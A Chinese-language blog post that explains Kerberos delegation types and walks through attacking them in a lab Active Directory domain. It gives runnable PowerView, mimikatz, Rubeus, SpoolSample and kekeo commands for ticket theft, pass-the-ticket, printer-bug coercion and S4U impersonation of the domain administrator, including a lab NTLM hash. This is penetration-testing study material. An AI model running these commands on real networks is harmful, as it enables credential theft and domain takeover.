用域委派打烂kerberos狗头
简单回顾Kerberos认证过程
假设client想访问server
- client 向KDC-AS 发起预认证即NTLMhash加密的时间戳
- KDC-AS 验证身份后，发送client NTLMhash加密的短会话密钥seesionkey-a和krbtgt账户密码加密的TGT(TGT中也包含了sessionkey-a)
- client 用自己的NTLMhash解密拿到sessionkey-a，用sessionkey-a加密时间戳并发送加密的TGT给KDC-TGS
- KDC-TGS用krbtgt账户密码解密获取到sessionkey-a，并解密client发送的时间戳以此验明client身份。之后返回sessionkey-a加密的sessionkey-b和server的密码加密TGS（有的文章也称ST）
- client用sessionkey-a 解密拿到sessionkey-b，并用sessionkey-b加密时间戳一并和TGS发送给server
- server用自己的密码解密TGS拿到sessionkey-b解密时间戳以此验明client身份。返回sessionkey-b加密的时间戳给client，以此向client表明自己的身份（这里体现出Kerberos的双向验证）。
委派的场景
n1nty师傅的原话：用户 A 利用 Windows 身份验证访问了一个网站，请求网站内的一个文件，但是这个网站服务器本身并没有这个文件，它需要利用用户 A 的身份去访问另一台服务器，从另一台服务器上获取这个文件后再返回给用户。为什么网站会利用用户 A 的身份去获取文件，而不是直接利用网站自身的权限去获取呢？因为要充分利用 Windows 系统自身提供的权限控制啊，也许有的用户有权限访问那个文件而有的用户没有权限啊。
kerberos委派分类
- Forwardable TGT：Unconstrained delegation
- Proxy ticket：user 在访问 service1 的时候，提前把访问 service2 的票也申请好，并把这张票传递给 service1，然后 service1 就可以利用 user 的身份来访问 service2
- Constrained delegation：传统的约束委派
- Resource based delegation：基于资源的约束委派
非约束委派（Unconstrained delegation）
假如server1主机账户配置了非约束委派，那么域账户A在对server1主机账户旗下服务service1（例如cifs服务）产生kerberos认证的时候（例如dir \\server1\c$）域账户会发送包含tgt的tgs给service1，然后service1就可以代表域账户A认证域内任何服务器。示意图如下

其攻击面是如果黑客控制了server1并在上面抓取了tgt就可以借此横向移动。
约束委派
约束委派里面有两种重要的协议一种叫S4U2Proxy，一种叫S4U2Self。假如在给server1主机账户配置了委派到的server2 service2服务。那么当域用户A与server1旗下的service1发生kerberos认证的时候，service1可以拿域用户A给的tgs1从域控换到可以访问server2 service2的tgs2。在用tgs1换tgs2的过程中使用的协议就是S4U2Proxy。可是有可能用户A以其他方式(如NTLM认证，基于表单的认证等方式)与server service1 认证后用户没法提供tgs，那么service1就先需要使用S4U2Self从域控那里先换到用户对自己服务的tgs1，再使用S4U2Proxy换可以访问server2 service2的tgs2。
S4U2Proxy的示意图如下

S4U2Self的示意图如下

其攻击面是如果黑客控制了server1那么他可以伪造域内任意用户访问server2的service2
传统的约束委派
传统的约束委派是“正向的”，通过修改服务A属性msDS-AllowedToDelegateTo，添加服务B的SPN（Service Principle Name），设置约束委派对象（服务B），服务A便可以模拟用户向域控制器请求访问服务B以获得服务票据（TGS）来使用服务B的资源。
基于资源的约束委派
2012 及以后的KDC，受限委派的机制变成了基于资源的约束委派。基于资源的约束委派则是相反的，通过修改服务B属性msDS-AllowedToActOnBehalfOfOtherIdentity，添加服务A的SPN，达到让服务A模拟用户访问B资源的目的。
两者联系与区别示意图如下

发现域内配置委派的账户
在域内的可以委派的账户有两种一种是主机账户（NetComputer）另一种是用setspn手动添加的服务账户（NetUser），上文中不管是非约束还是约束的例子是以主机账户举例，因为用主机账户来委派的环境好搭并且便于理解，不过服务账户和主机账户从攻击委派这个视角来看是等价的。
检查非约束委派可以使用master版的PowerView
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
1 | Get-NetUser -Unconstrained -Domain beta.com |
检查约束委派可以使用开发版的PowerView
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
1 | Get-DomainUser -TrustedToAuth -Domain beta.com |
环境说明
WIN-PMID8H9A6H0 192.168.3.2（域控， server2012）
exchange 192.168.3.3 (server2012)
database 192.168.3.4 (win10)
database2 192.168.3.5 (win7)
攻击非约束委派
在WIN-PMID8H9A6H0上用域管登陆（这是一句废话，默认情况只有域管可以登陆域控），在Active Directory用户和计算机中，将computer组里面的database2选为信任此计算机来委派任何服务即非约束委派。然后在cmd中dir \\database2\c$。

在database2上用本地管理员登陆并用mimikatz抓取tickets
1 | mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit |
可以看到域管理员传来的tgt

用mimikatz将域管理员的tgt导入
1 | mimikatz.exe "kerberos::ptt [0;a4e7f]-2-0-60a10000-Administrator@krbtgt-BETA.COM.kirbi" exit |


本地管理员成功访问域控

攻击非约束委派（进阶）
上面利用非约束委派拿到域管账户TGT的前提是需要域管账户和委派主机有过交互才能获取到TGT。当域控机器开启Print Spooler服务时(默认开启且以System权限运行)，攻击者可以主动要求域控访问已被攻击者控制的非受限委派服务器，进而获取域控主机账户的TGT。当然这种攻击方式也适用于其他非域控机器。但是这种攻击有一个限制是需要找到一台开启非受限委派的主机账户，而非服务账户并且有一个域普通账户

完成这一套攻击需要两个Rubeus和SpoolSample的工具，Rubeus可以看作对kekeo的弥补，SpoolSample用户向DC2 Print Spooler发起请求。SpoolSample貌似只能用.net4.0以上的版本编译，所以这次就在win10上用了。
本地管理员运行
1 | Rubeus.exe monitor /interval:5 /filteruser:WIN-PMID8H9A6H0$ |

域普通账户运行
1 | SpoolSample.exe WIN-PMID8H9A6H0 database2 |

困惑的是这里报错了，查了报错码说是Print Spooler没开，但是明明开了的。。。
不过峰回路转的是database2 上可以抓到域控传来的tgt


1 | kerberos::ptt [0;a8543]-2-0-60a10000-WIN-PMID8H9A6H0$@krbtgt-BETA.COM.kirbi |

攻击约束委派
域控上这么配置

在database2上用mimikatz抓取主机账户htlm hash（主机账户即hostname$）
1 | privilege::debug |

用拿到的ntlm hash申请tgt
1 | tgt::ask /user:database2$ /domain:beta.com /ntlm:65118c9246cada2aa3e1a366f3ed06cf |

ps：其实抓hash和kekeo的操作在拥有database2主机权限下都是多余的操作。这里为了完整性写出来，其实际意义在于在实战中通过其他方式例如爆破获取了服务账号的密码（服务账号的密码是管理员自己设置所以可能是弱口令，至于主机账户的密码上上张图你也看到了长的过分）的情况下进行约束委派攻击。
获取访问exchange cifs服务的tgs（tgs是域管权限）
1 | tgs::s4u /tgt:TGT_database2$@BETA.COM_krbtgt~beta.com@BETA.COM.kirbi /user:Administrator@beta.com /service:cifs/exchange.beta.com |

将tgs导入
1 | kerberos::ptt TGS_Administrator@beta.com@BETA.COM_cifs~exchange.beta.com@BETA.COM.kirbi |

以本地管理员身份假装域管访问exchange smb

杂
- 默认情况下普通域用户只能登陆域中的PC不能登陆域中server
- tgt使用与域账号无关，本地账户仍然可以使用tgt
- tgt是从本质来说是krbtgt服务的tgs
参考
域渗透-Delegation
利用资源约束委派进行的提权攻击分析
利用 Kerberos delegation 打造变种黄金票据
Setting up delegation between servers for Windows authenticated sites
Attacking Kerberos Delegation
N1CTF 2019 Pentest N1ctf2019.lab WP
Kerberos和NTLM – SQL Server连接的那点事
SQL Server 只安装客户端的方法
install_url to use ShareThis. Please set it in _config.yml.